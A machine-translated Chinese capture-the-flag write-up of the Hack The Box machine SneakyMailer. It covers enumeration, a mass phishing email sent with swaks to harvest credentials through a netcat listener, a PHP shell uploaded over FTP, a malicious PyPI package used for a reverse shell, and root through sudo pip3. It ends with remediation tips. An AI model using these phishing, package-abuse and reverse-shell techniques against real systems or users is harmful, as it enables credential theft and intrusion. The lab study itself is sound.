# HTB·斯奈克米勒

> 原文：<https://infosecwriteups.com/htb-sneakymailer-writeup-bb32e94f593?source=collection_archive---------5----------------------->

## 群发电子邮件网络钓鱼| PyPi 软件包文件滥用| pip3

# 摘要

这台机器教会了我一些有趣的攻击途径，尤其是如何设置一个钓鱼邮件来提取用户凭证。机器有打开的 FTP，所以我上传了 shell 脚本，通过 FTP 子域浏览器执行。

在检索到低特权 shell 后，我使用了通过钓鱼邮件找到的用户凭据，并使用它升级到一个开发人员的帐户。

在横向移动过程中，我发现 pypi 服务器正在这台机器上运行，它的凭证也暴露了。配置此服务器以实现升级到另一个用户。利用在互联网上找到的指南，我设法得到了外壳。

如果执行基本枚举来利用该漏洞，根升级是非常简单的。

## 使用的工具:

*   `nmap -sCVS 10.10.10.197 -p- > nmap.txt`
*   `gobuster`
*   `dirsearch.py`
*   `wfuzz`
*   Evolution - IMAP 客户端

网络服务器: nginx/1.14.2

**服务器端语言:** PHP

**脚本语言:** Python

**Nmap TCP 扫描输出**



**************端口 80 HTTP * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * ***

输入 IP 地址 *10.10.10.197，*它试图重定向到 sneakycorp.htb。

**etc/hosts** 文件将主机名映射到 IP 地址。包括它，如下所示。等待几秒钟让它生效，然后执行 URL 中的 *sneakycorp.htb* 。

在成功运行该网站后，我注意到员工邮件的域名是 *sneakymailer.htb* 。然后将其添加到 **/etc/hosts** 文件中。



**/team.php** 下有 57 个词条！我创建了两个 txt 文件。一个包括所有员工的电子邮件地址，另一个只包括员工姓名*(潜在用户名)*。



> 内容目录搜索

`gobuster`使用单词列表*/usr/share/dir buster/word lists/directory-list-2.3-medium . txt*你会找到 */pypi* 子目录。

针对特定扩展运行了`dirsearch.py`:php，。txt，。zip 并找到了*register.php 的*文件



这只不过是一个虚假的页面。

> 子域模糊

`sudo wfuzz. -H "host:FUZZ.sneakycorp.htb" -u sneakycorp.htb -w /usr/share/dirb/wordlists/big.txt --hc 404,301`

web fuzzer 发现*‘dev’*是 sneakycorp.htb 的子域

在 */etc/hosts* 中添加子域来解析该地址

**dev.sneakycorp.htb** 拥有与主域相同的 GUI。



**对于端口 8080，**我重复了与端口 80 相同的过程。

在这个端口上只找到了子域' *Dev* '。

*** * * * * * * * * * * *端口 25 SMTP * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * ***

> 设置网络钓鱼电子邮件

向“team.php”页面上列出的名字之一发送了一封测试邮件。电子邮件已成功发送给收件人。



现在，设置一封钓鱼邮件来引诱用户点击链接。

接下来，在 web 服务器上设置一个监听端口 [http://10.10.14.42](http://10.10.14.42)

`nc -lvnp 7529`

当接收者点击发送的链接时，它将被 web 服务器端口捕获。

`sudo swaks --to carastevens@sneakymailer.htb,bradleygreer@sneakymailer.htb,zoritaserrano@sneakymailer.htb,zenaidafrank@sneakymailer.htb,yuriberry@sneakymailer.htb,vivianharrell@sneakymailer.htb,unitybutler@sneakymailer.htb,timothymooney@sneakymailer.htb,tigernixon@sneakymailer.htb,thorwalton@sneakymailer.htb,tatyanafitzpatrick@sneakymailer.htb,sulcud@sneakymailer.htb,sukiburks@sneakymailer.htb,sonyafrost@sneakymailer.htb,shouitou@sneakymailer.htb,shaddecker@sneakymailer.htb,sergebaldwin@sneakymailer.htb,sakurayamamoto@sneakymailer.htb,rhonadavidson@sneakymailer.htb,quinnflynn@sneakymailer.htb,prescottbartlett@sneakymailer.htb,paulbyrd@sneakymailer.htb,olivialiang@sneakymailer.htb,michellehouse@sneakymailer.htb,michaelsilva@sneakymailer.htb,martenamccray@sneakymailer.htb,laelgreer@sneakymailer.htb,jonasalexander@sneakymailer.htb,jenniferchang@sneakymailer.htb,jenniferacosta@sneakymailer.htb,jenettecaldwell@sneakymailer.htb,jenagaines@sneakymailer.htb,jacksonbradshaw@sneakymailer.htb,howardhatfield@sneakymailer.htb,hopefuentes@sneakymailer.htb,herrodchandler@sneakymailer.htb,hermionebutler@sneakymailer.htb,haleykennedy@sneakymailer.htb,glorialittle@sneakymailer.htb,gavinjoyce@sneakymailer.htb,gavincortez@sneakymailer.htb,garrettwinters@sneakymailer.htb,fionagreen@sneakymailer.htb,finncamacho@sneakymailer.htb,doriswilder@sneakymailer.htb,donnasnider@sneakymailer.htb,dairios@sneakymailer.htb,colleenhurst@sneakymailer.htb,chardemarshall@sneakymailer.htb,cedrickelly@sneakymailer.htb,caesarvance@sneakymailer.htb,brunonash@sneakymailer.htb,briellewilliamson@sneakymailer.htb,brendenwagner@sneakymailer.htb,ashtoncox@sneakymailer.htb,angelicaramos@sneakymailer.htb,airisatou@sneakymailer.htb --server 10.10.10.197 --body “[http://10.10.14.42:7529](http://10.10.14.42:7529)"`



通过监听服务器端口进行身份验证捕获

## ********端口 143 IMAP * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * *

我用 evolution 为 paulbyrd@sneakymailer.htb 账号设置了 IMAP UI。

找到开发人员凭据

## ********端口 21 FTP * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * *



使用开发人员凭据的 FTP 登录。

在这里，我创建了一个 shell.php，并上传到开发人员的 FTP 帐户。

> 创建有效负载

> 上传到开发者的 FTP



> 设置一个监听器端口并执行 shell

> 我还能够使用相同的凭证升级到用户开发人员。



> 我下载了临时文件夹中的`linenum.sh`，在**/var/www/pypi . sneaky corp . htb/中找到了以下凭证。htpasswd** 文件。

> 在 */etc/hosts* 文件中添加 pypi.sneakycorp.htb，我们看到 pypiserver 运行在 8080 上。

*** * * * * * * * * * * * * *端口 8080 HTTP * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * ***

## 横向权限提升

对于这部分，我们知道/有以下两件事:

*   pypi 服务器凭据
*   pypi 服务器正在 pypi.sneakycorp.htb:8080 上运行

## 理解 P [yPi](https://pypi.org)

## 将“恶意”包上传到 PyPi 服务器

使用这个[链接](https://pypi.org/project/pypiserver/#upload-with-setuptools)配置 PyPi 服务器。

pypi_pkg 目录中有两个文件:

*   。pypirc
*   setup.py

> 1.在主机上创建一个包文件夹。
> 
> 2.使用 pypirc 文件并包含 pypi 服务器凭证。



> 3.使用示例 [setup.py](https://packaging.python.org/tutorials/packaging-projects/) 文件并修改。



> 4.将 pypi_pkg 目录上传到开发者的机器上。

在主机上运行 apache2 web 服务器: `sudo service apache2 restart`

在开发者的机器中，进入 */tmp* 文件夹，然后上传包文件。

确保文件是可执行的。



> 5.将 Home 变量更改为文件所在的位置。

> 6.启动主机上的监听端口

`nc -lvnp 3826`

> 7.执行

现在一切都已正确配置，执行命令将恶意文件上传到 pypi 服务器

## 垂直权限提升— Root！

使用命令`sudo -l`我们可以看到，用户 *low* 可以通过执行`/usr/bin/pip3`命令以 root 身份运行自己，以获得反向 shell

[**gtfobins**](https://gtfobins.github.io/gtfobins/pip/)**在这里被用来滥用 pip3**

********

**成功了！！！**

****

# **补救**

*   **使用根级别权限限制标准用户对工具的访问。或者从该工具中删除 root 权限。**
*   **设置适当的权限，使用户无法导航到任何其他用户的目录/文件。**
*   **使用 SFTP 而不是 FTP，并始终使用至少 12 位数的密码，以更好地保护您的帐户。**